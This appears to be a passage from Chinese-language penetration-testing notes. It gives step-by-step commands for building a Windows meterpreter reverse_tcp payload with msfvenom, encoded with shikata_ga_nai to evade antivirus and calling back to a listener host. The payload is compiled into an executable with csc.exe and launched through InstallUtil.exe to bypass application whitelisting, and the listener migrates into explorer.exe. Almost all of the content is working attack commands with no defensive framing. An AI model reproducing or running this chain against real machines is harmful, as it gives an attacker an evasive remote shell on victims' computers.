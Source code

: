 	生成payload
	MSF监听需设置自动迁移进程set autorunscript migrate -n explorer.exe
	>msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00' LHOST=192.168.0.108 LPORT=12138 -f csharp -o cs.txt
	Payload粘贴到InstallUtil-Shellcode.cs中使用csc编译
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/58.png)

	C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe /platform:x86 /out:C:\Users\y\Desktop\shell.exe C:\Users\y\Desktop\InstallUtil-ShellCode.cs
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/59.png)

	执行
	C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\y\Desktop\shell.exe